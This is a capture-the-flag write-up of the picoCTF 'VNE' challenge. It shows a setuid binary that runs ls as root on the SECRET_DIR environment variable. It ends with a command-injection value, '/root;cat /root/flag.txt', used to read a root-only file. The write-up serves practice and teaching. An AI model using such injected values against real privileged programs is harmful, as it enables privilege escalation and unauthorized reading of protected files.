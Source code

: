 ## Notes and Concepts Learnt:
- The reference used for this program was `heap 0` from `picoCTF`, which is the prior challenge to this.
# 3. VNE
>We've got a binary that can list directories as root, try it out !! ssh to saturn.picoctf.net:53978, and run the binary named "bin" once connected. Login as ctf-player with the password, d137d16e
>(binex-medium)

## Solve:
- This challenge required me to connect to a server using `ssh` and somehow get the flag.
- After I booted in, I used `ls` to see the files in my current working directory-
```zsh
ctf-player@pico-chall$ ls
bin
ctf-player@pico-chall$ file bin
bin: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=202cb71538089bb22aa22d5d3f8f77a8a94a826f, for GNU/Linux 3.2.0, not stripped
ctf-player@pico-chall$ ./bin
Error: SECRET_DIR environment variable is not set
```
- Here I could see that the file located in `cwd` was an executable file, trying to execute it, it showed an error saying the `SECRET_DIR` environment variable was not set.
- I set up a random directory as the as the `SECRET_DIR` variable and once again ran the executable.
```zsh
ctf-player@pico-chall$ export SECRET_DIR
ctf-player@pico-chall$ ./bin
Listing the content of ./bin as root:
./bin
```
- From this I understood that the executable used the `ls` command on the directory set to `SECRET_DIR`.
- I tried using it on a lot of directories available, I also found one `/challenge` directory which was not accessible through normal `ls` or any other command, it provided three files but was very fruitful.
```zsh
ctf-player@pico-chall$ SECRET_DIR="/challenge"
ctf-player@pico-chall$ ./bin
Listing the content of /challenge as root:
config-box.py  metadata.json  profile
```
- So I looked at the first hint which said to look under the `root`  directory.
```zsh
ctf-player@pico-chall$ SECRET_DIR="/root"
ctf-player@pico-chall$ ./bin
Listing the content of /root as root:
flag.txt
```
- And there it was `flag.txt`, trying to use normal `cat` from the command line didn't work.
```zsh
ctf-player@pico-chall$ cat /root/flag.txt
cat: /root/flag.txt: Permission denied
```
- I tried using `/bin/cat` but that also didn't work.
- I got an idea, I could see that the directory I put in `SECRET_DIR` goes through the `ls` command so that means that if I put any other command after the directory name with a `;`, it would result in also executing that program, So I tried to do so.
```zsh
ctf-player@pico-chall$ SECRET_DIR="/root;cat /root/flag.txt"
ctf-player@pico-chall$ ./bin
Listing the content of /root;cat /root/flag.txt as root:
```